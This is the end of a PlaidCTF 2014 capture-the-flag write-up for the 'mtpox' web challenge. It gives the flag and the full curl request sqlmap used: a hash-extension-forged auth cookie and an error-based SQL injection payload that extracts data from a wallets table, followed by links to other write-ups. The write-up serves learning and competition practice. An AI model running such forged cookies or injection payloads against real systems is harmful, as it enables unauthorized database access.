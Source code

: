 ```bash
[13:33:37] [INFO] fetching columns for table 'CHARACTER_SETS' on database 'information_schema'
[13:33:37] [INFO] the SQL query used returns 4 entries
[13:33:37] [INFO] retrieved: CHARACTER_SET_NAME
…
```

The flag is `flag{phpPhPphpPPPphpcoin}`.

For the record, the payload `sqlmap` used to get the flag was:

```bash
$ curl --cookie 'auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' 'http://54.211.6.40/admin.php?query=abc%20AND%20%28SELECT%203497%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C103%2C99%2C121%2C58%29%2C%28SELECT%20MID%28%28IFNULL%28CAST%28id%20AS%20CHAR%29%2CCHAR%2832%29%29%29%2C1%2C50%29%20FROM%20mtpox.plaidcoin_wallets%20LIMIT%200%2C1%29%2CCHAR%2858%2C118%2C117%2C112%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29'
Query failed: Duplicate entry ':gcy:flag{phpPhPphpPPPphpcoin}:vup:1' for key 'group_key'
```

## Other write-ups and resources

* <http://conceptofproof.wordpress.com/2014/04/13/plaidctf-2014-web-150-mtgox-writeup/>
* <https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack>
* <http://achatz.me/plaid-ctf-mt-pox/>
* [Source code for this challenge, released after the CTF](https://github.com/pwning/plaidctf2014/tree/master/web/mtpox)
* <https://github.com/hackerclub/writeups/blob/master/plaidctf-2014/mtpox/WRITEUP-arthurdent.md>
* [Indonese](http://blog.rentjong.net/2014/04/plaidctf2014-write-up-mtpox-web150.html)
* [Russian](http://blog.nostr.ru/2014/04/mtpox-web-150-pts-plague-has-traveled.html)
